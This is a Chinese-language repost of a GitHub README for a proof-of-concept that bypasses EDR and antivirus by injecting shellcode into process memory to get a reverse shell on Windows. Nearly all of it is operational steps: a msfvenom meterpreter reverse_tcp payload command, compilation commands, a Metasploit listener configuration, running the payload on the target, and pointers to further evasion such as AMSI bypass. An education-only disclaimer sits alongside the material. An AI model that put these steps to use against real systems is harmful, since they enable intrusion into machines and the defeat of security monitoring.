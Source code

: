 #  【Exp】绕过 EDR 防病毒软件以获取 Shell 访问权限   
 独眼情报   2024-09-28 17:01  
  
## EDR 和防病毒绕过以获得 Shell 访问权限  
  
此仓库包含了一个 **概念验证 (PoC)** ，用于通过内存注入技术绕过 EDR 和防病毒解决方案。代码执行了一个生成反向 Shell 的 shellcode，成功规避了各种安全机制的检测。  
## 描述  
  
此项目展示了如何使用 Windows API 函数（如 VirtualAlloc、CreateThread 和 WaitForSingleObject）绕过 EDR 和防病毒保护。有效载荷直接注入到进程内存中，不会被安全工具检测到，从而与远程系统建立连接以实现反向 Shell。  
>   
> **免责声明：** 本代码仅用于教育目的。请负责任地使用，并且仅在您有明确权限进行测试的环境中使用。  
  
## 特性  
- 绕过标准的 EDR 和防病毒解决方案  
  
- 在内存中执行 shellcode 以创建反向 Shell  
  
- 使用 VirtualAlloc 和 CreateThread 将有效载荷直接注入进程内存  
  
## 要求  
- Windows 操作系统（已在 Windows 11 Pro 上测试）  
  
- Kali Linux（用于反向 Shell 监听器）  
  
- Visual Studio 或任何 C# 编译器  
  
## 编译和运行步骤  
### 1. 克隆仓库  
```
https://github.com/murat-exp/EDR-Antivirus-Bypass-to-Gain-Shell-Access.git
cd EDR-Antivirus-Bypass-Shell-Access

```  
### 2. 修改 Shellcode  
  
编译前，请确保修改 shellcode 以指向您自己的 IP 地址和端口用于反向 Shell。您可以使用 msfvenom 生成 shellcode：  
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<YOUR_IP> LPORT=<YOUR_PORT> -f csharp

```  
  
将生成的 shellcode 替换 Program.cs 中的 byte[] buf 部分。  
### 3. 编译代码  
  
在 Visual Studio 中打开项目，或使用以下命令使用 .NET SDK 编译代码：  
```
csc bypass.cs

```  
  
**或者，您可以使用 Release 模式进行编译以获得更好的优化：**  
```
csc -optimize bypass.cs

```  
### 4. 在 Kali 上启动监听器  
  
在您的 Kali Linux 机器上启动监听器以捕获反向 Shell。在 Metasploit 中使用以下命令：  
```
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <YOUR_IP>
set LPORT <YOUR_PORT>
run

```  
### 5. 执行有效载荷  
  
将编译好的 .exe 文件传输到 Windows 机器上。您可以手动执行该文件或使用其他方法运行该文件：  
```
bypass.exe

```  
1. 获取 Shell  
  
一旦在目标机器上执行了有效载荷，您应该会在 Metasploit 控制台中看到一个反向 Shell 会话。从那里，您可以与系统进行交互：  
```
meterpreter > sysinfo
meterpreter > shell

```  
1. 其他绕过技术  
  
为了避免被高级 EDR 解决方案检测到，可以考虑使用诸如进程注入、混淆或 AMSI 绕过等技术。此 PoC 可以通过这些方法进行扩展，以实现更强大的规避。  
>   
> https://github.com/murat-exp/EDR-Antivirus-Bypass-to-Gain-Shell-Access  
  
  
  
